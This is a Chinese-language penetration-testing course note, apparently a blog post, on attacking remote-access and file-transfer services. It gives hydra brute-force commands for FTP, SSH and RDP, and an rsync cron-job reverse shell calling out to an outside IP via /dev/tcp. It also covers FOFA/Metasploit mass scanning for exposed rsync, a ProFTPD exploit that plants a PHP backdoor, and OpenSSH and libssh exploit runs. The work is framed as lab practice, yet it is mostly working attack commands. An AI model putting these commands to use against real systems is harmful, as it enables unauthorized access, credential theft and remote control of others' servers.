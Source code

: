 ![1649599950471-12d400a9-f9b8-430a-9156-3450f0604935.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134249066-250391190.png)

```plain
#知识点：
1、服务攻防-远程控制&文件传输等
2、远程控制-RDP&RDP&弱口令&漏洞
3、文件传输-FTP&Rsync&弱口令&漏洞

#章节内容：
常见服务应用的安全测试：
1、配置不当-未授权访问
2、安全机制-特定安全漏洞
3、安全机制-弱口令爆破攻击

#前置知识：
应用服务安全测试流程：见图
1、判断服务开放情况-端口扫描&组合应用等
2、判断服务类型归属-数据库&文件传输&通讯等
3、判断服务利用方式-特定漏洞&未授权&弱口令等
```

- 口令猜解-Hydra-FTP&RDP&SSH

```plain
https://github.com/vanhauser-thc/thc-hydra
可以自己安装
也可以使用kali自带
kali下载：https://www.kali.org/get-kali/
hydra是一个自动化的爆破工具，暴力破解弱密码，
是一个支持众多协议的爆破工具，已经集成到KaliLinux中，直接在终端打开即可
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
例子：
FTP：文件传输协议
RDP：Windows远程桌面协议
SSH：Linux安全外壳协议


ftp爆破：hydra -L test -P 10top1K.txt 47.110.53.159 ftp -V
ssh爆破：hydra -l root -P 10top1K.txt 47.110.53.159 ssh -V
rdp爆破：hydra -l administrator -P 10top1K.txt 47.110.53.159 rdp -V

字典：fuzzDicts-master项目
```

- 配置不当-未授权访问-Rsync文件备份

```plain
rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。实现文件的传输和数据库的同步，保证文件的结构同步。
实现环境：vulfocus.io

判断存在：
rsync rsync://123.58.236.76:33825/
```

![1649659288712-dfd594cc-7a7b-4a12-9175-31a611bbe26c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134303201-1413884695.png)

```plain
利用：
-读取文件：rsync rsync://123.58.236.76:33825/src/
-下载文件：rsync rsync://123.58.236.76:33825/src/etc/passwd ./
-上传文件：rsync -av passwd rsync://123.58.236.76:33825/src/tmp/passwd
```

![1649659394435-2b3be369-c373-41e3-9338-a6d03887983f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134303418-1294415928.png)

```plain
反弹shell：

1、获取信息：
rsync rsync://123.58.236.76:33825/src/etc/crontab /home/xiaodi/cron.txt

/home/xiaodi/cron.txt文件内容：这个就是计划任务内容（目标主机）
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

计时任务表：17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
这个代表17分钟会运行一个/etc/cron.hourly文件，那么对这个文件进行修改。
```

![1649659900618-3e870408-c001-43a0-8163-8bb27b10ba50.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134303889-1472009390.png)

```plain
2.创建文件 
touch shell 
vim shell

/bin/bash -i >& /dev/tcp/47.100.167.248/1111 0>&1(写在shell文件里面)
chmod +x shell		
```

![1649660309282-ea99d0c1-5b38-4492-8047-47e20c9c05cf.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134303524-744468530.png)

```plain
3、上传文件 
rsync -av shell rsync://123.58.236.76:33825/src/etc/cron.hourly 

4、等待接受反弹
nc -lvvp 1111

但是这个靶场只能10分钟，所以没办法看到效果。
```

- 高端课程-直接搜哈-MSF&Fofaviewer

```plain
fofa项目：https://github.com/wgpsec/fofa_viewer

启动：G:\java14\bin\java.exe -jar fofaviewer.jar

搜索关键字：port="873"
```

![1649660888031-3b6ec0ca-cf12-49d2-9eec-f1115c210b4d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134304107-1142470505.png)

```plain
查询到结果导出，然后在启动msf

msfconsole
use auxiliary/scanner/rsync/modules_list
set rhosts file:/home/xiaodi/ips.txt
set threads 10
run
```

![1649661298366-b750e2fc-0bef-4d33-9959-18ad9b978e29.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134303758-1984740771.png)

- 协议漏洞-应用软件-FTP&Proftpd搭建

```plain
环境：http://vulfocus.io/#/dashboard

利用：https://github.com/t0kx/exploit-CVE-2015-3306
直接用到exp:
G:\python38\python.exe exploit.py --host 123.58.236.76 --port 55968 --path "/var/www/html/"
```

![1649662297498-ed81bc57-bda8-4858-b859-15d7df328ae6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134303873-428417804.png)

```plain
正常来说，他会在在当前目录创建一个backdoor.php文件，然后我们访问：http://123.58.236.76:27023/backdoor.php?cmd=id就可以执行后门
```

![1649662788119-a0993c59-1e0c-4372-aa3d-188a592b74bf.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134303893-984914212.png)

- 协议漏洞-应用软件-SSH&libssh&Openssh

```plain
-Openssh CVE-2014-0160 CVE-2018-15473 cve_2020_15778
CVE-2014-0160 版本很少
ssh -V查看版本

危害：https://blog.csdn.net/yangbz123/article/details/109601357
影响版本： OpenSSL 1.0.2-beta， OpenSSL 1.0.1 - OpenSSL 1.0.1f
```

![1649663075362-cd137db4-b885-4f37-b5ed-4e243a717967.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134303973-389413545.png)

```plain
cve_2020_15778 价值不高

要实现该漏洞必须知道ssh用户密码，但是一般来说ssh是阻止连接的,(绑定了ip不需要外部ip进行连接)。这个时候我们就可以利用这个漏洞进行连接。

ssh连接不了，利用这个漏洞来进行连接。
CVE-2018-15473-用户名枚举
环境：http://vulfocus.io/#/dashboard
意义：在猜解用户的时候，可以针对其他用户的密码测试


利用：https://github.com/Rhynorater/CVE-2018-15473-Exploit
安装：
G:\python38\Scripts\pip3.exe install -r requirements.txt
G:\python38\Scripts\pip3.exe install paramiko==2.4.1
G:\python38\python.exe sshUsernameEnumExploit.py --port 62101 --userList exampleInput.txt 123.58.236.76
```

![1649663727676-b44dad00-8ab8-4962-bb13-d8f5dc6817b7.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134304189-279257670.png)

```plain
-libssh 身份验证绕过（CVE-2018-10933）

参考：https://www.seebug.org/vuldb/ssvid-97614

执行：G:\python38\python.exe libssh.py 123.58.236.76 31548 "id"

fofa搜索："libssh"&&port="22"
```

![1649664398536-132c17f6-1d48-48c9-8b4c-85c0bf93f7cc.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134304262-920452213.png)